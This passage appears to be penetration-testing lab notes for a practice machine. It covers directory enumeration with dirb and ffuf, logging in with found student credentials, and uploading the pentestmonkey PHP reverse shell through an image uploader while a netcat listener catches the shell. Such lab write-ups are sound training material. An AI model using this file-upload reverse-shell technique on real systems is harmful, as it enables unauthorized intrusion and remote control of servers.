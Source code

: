 > `10201321`:`student` 

➡️ [dirb](https://www.kali.org/tools/dirb/)

```bash
dirb http://192.168.31.128
```

➡️ [ffuf](https://github.com/ffuf/ffuf)

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.31.128/FUZZ
```

```bash
academy [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 0ms]
phpmyadmin [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 0ms
		   [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 0ms]
server-status [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 1ms]
```

- Navigate to [http://192.168.31.128/academy](http://192.168.31.128/academy)
  - Use `10201321`:`student` credentials to login

- Check pages source code for CMS versions
- Try to upload a picture - upload successful
  - Check the image URL - e.g. [http://192.168.31.128/academy/studentphoto/peh-course-solo-icon.png](http://192.168.31.128/academy/studentphoto/peh-course-solo-icon.png)
- Try to upload a reverse shell, to abuse the file upload
  - Upload via PHP
  - Use [GitHub - pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) - copy the content of `php-reverse-shell.php` and create a `shell.php` file with that content
  - Set the `$ip` equal to the Kali VM IP

```bash
nc -nvlp 1234
```

- Upload the `shell.php` file using the web image uploader
  - The file is already executed (if not navigate to its webpage)
  - Reverse shell working
